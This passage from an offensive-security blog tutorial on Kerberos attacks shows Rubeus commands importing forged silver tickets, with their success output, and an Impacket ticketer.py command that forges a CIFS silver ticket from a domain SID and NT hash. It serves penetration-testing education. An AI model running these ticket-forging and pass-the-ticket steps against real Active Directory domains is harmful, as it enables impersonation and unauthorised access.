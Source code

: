	PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi

	(_____ \      | |
	 _____) )_   _| |__  _____ _   _  ___
	|  __  /| | | |  _ \| ___ | | | |/___)
	| |  \ \| |_| | |_) ) ____| |_| |___ |
	|_|   |_|____/|____/|_____)____/(___/

	v1.3.3

	[*] Action: Import Ticket
	[+] Ticket successfully imported!

	PS C:\Users\m0chan> .\Rubeus.exe klist

Inject `.kirbi` from Base64 Blog

	PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:BASE64BLOBHERE

	(_____ \      | |
	 _____) )_   _| |__  _____ _   _  ___
	|  __  /| | | |  _ \| ___ | | | |/___)
	| |  \ \| |_| | |_) ) ____| |_| |___ |
	|_|   |_|____/|____/|_____)____/(___/

	v1.3.3

	[*] Action: Import Ticket
	[+] Ticket successfully imported!

	PS C:\Users\m0chan> .\Rubeus.exe klist

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)From Linux

I am going to try my best here to show how you can use Silver Tickets/Inject them etc from Linux but truthfully this is a learning experience for me as I 99% of the time carry this out on Windows bases platforms and/or **Domain-Joined Machines**

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)ticketer.py

Here we find ourselves again on a Linux machine wanting to do Windows things so where do we look? You have one guess. Yep you’re right. **Impacket** has a script called `ticketer.py`

I truthfully just learnt about this script after doing some Googling so I am not expert on it’s internals but after a brief overview it appears as if `ticketer.py` allows you to generate forged `Silver` and `Golden` tickets which will come in handy for the next section about `Golden Tickets`

The Syntax for Ticketer is as follows

	m0chan@kali:/scripts/> python ticketer.py -domain-sid S-1-5-21-1473643419-774954089-2222323452 -nthash d7e2b80507ea074ad59f152a1ba20458 -domain m0chanAD.local -spn cifs/workstation.m0chanAD.local m0chan
